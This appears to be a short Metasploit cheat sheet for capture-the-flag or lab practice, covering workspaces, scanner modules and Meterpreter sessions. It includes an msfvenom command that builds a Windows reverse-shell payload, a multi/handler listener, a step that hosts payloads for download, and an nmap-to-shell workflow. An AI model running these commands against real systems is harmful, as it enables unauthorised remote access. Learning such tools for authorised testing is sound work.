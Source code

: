 # Metasploit Usage Notes

## Metasploit Database
Metasploit includes a PostgreSQL database to store data like hosts, services, and scan results. Helps in organizing targets and exploits.

- `hosts` → List scanned hosts
- `services` → Services discovered (e.g., ports, versions)

## Workspaces
Used to separate data for different engagements.
```bash
workspace -a project1
workspace project1
```

## Vulnerability Scanning
Use scanner modules like `auxiliary/scanner/smb/smb_login` for brute-force and enumeration.

## Meterpreter Sessions
Interactive shell after successful exploitation.
```bash
sessions -l       # List sessions
sessions -i <id>  # Interact with session
```

## NTLM Hash
Windows hash used in authentication. Cracking this can lead to full access.

## MSFVenom
Tool for creating custom payloads.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=4444 -f exe > shell.exe
```

## Multi Handler
Used to handle incoming reverse shells.
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
run
```

## HTTP Simple Server
Host payloads locally for download on target.
```bash
python3 -m http.server 8000
```

## Example Workflow
```bash
nmap -sV <target_ip>
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
sessions -i 1
ls
cat flag.txt
```